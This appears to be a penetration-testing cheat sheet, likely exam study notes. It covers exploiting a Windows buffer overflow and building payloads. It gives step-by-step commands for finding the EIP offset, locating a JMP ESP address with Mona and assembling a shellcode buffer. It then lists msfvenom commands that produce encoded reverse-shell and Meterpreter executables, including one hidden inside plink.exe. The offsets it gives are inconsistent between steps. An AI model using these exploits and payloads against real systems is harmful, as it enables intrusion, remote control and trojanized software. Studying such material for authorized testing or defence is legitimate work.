 # Windows Buffer Overflows

## Controlling EIP
```
        - locate pattern_create
        - pattern_create.rb -l 2700
        - locate pattern_offset
        - pattern_offset.rb -q 39694438
```
## Verify exact location of EIP - * Exact match at offset 1709
```
    - buffer = "A" \*1709 + "B" \* 4 + "C" \* 90
    - Check for “Bad Characters” - Run multiple times 0x00 - 0xFF
    - Use Mona to determine a module that is unprotected
    - Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP
```
## Use NASM to determine the HEX code for a JMP ESP instruction
```
        - /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
        - JMP ESP
        - 00000000 FFE4 jmp esp
```
## Run Mona in immunity log window to find (FFE4) XEF command
```
        - !mona find -s "\xff\xe4" -m slmfc.dll
        - found at 0x5f4a358f - Flip around for little endian format
        - buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
    ```
## MSFVenom to create payload
```
        - msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
    ```
## Final Payload with NOP slide
```
        - buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
    ```





-----------------------





## Shells:
#### Create a PE Reverse Shell
```
        - msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
        - exe -o shell_reverse.exe
    ```
#### Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai
```
        - msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
        - exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
    ```
#### Create a PE reverse shell and embed it into an existing executable
```
        - msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
#### Create a PE Reverse HTTPS shell
```
        - msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe
```
